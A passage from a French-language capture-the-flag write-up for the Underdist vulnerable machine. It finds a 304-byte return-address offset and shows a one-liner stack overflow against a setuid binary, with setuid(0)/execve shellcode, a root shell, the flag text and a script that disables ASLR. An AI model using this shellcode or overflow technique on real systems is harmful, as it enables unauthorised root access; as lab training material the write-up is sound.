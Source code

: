 L'adresse de retour est à l'offset 304 suivie par l'adresse pour esp :

```python
>>> import struct
>>> struct.pack("<I", 0x64616162)
b'baad'
>>> g.find(struct.pack("<I", 0x64616162))
(304, 0, 304)
>>> g.find(b"caad")
(308, 0, 308)
```

Un one-liner suffit pour exploiter le binaire. Le shellcode est un setuid 0 + execve ( https://www.exploit-db.com/exploits/13359 ) :

```shellsession
underdist@Underdist:~$ .bin/echo `python -c 'print "A"*304 + "\x35\xca\xe8\xb7" + "\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA5���jX1�̀j
                                                                                                       X�Rh//shh/bin��RS��̀
# id
uid=0(root) gid=1000(underdist) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(underdist)
# cd /root
# ls
flag.txt  r.sh
# cat flag.txt


                        (`.         ,-,
                        ` `.    ,;' /
                         `.  ,'/ .'
                          `. X /.'
                .-;--''--.._` ` (
              .'            /   `
             ,           ` '   Q '
             ,         ,   `._    \
          ,.|         '     `-.;_'
          :  . `  ;    `  ` --,.._;
           ' `    ,   )   .'
              `._ ,  '   /_
                 ; ,''-,;' ``-
                  ``-..__``--`


                        http://underc0de.org



Felicidades H4x0r! resolviste el reto!

Mandame tu solucionario a: a.denegado@gmail.com

# cat r.sh
#!/bin/bash

echo 0 > /proc/sys/kernel/randomize_va_space
```

*Publié le 1er janvier 2023*
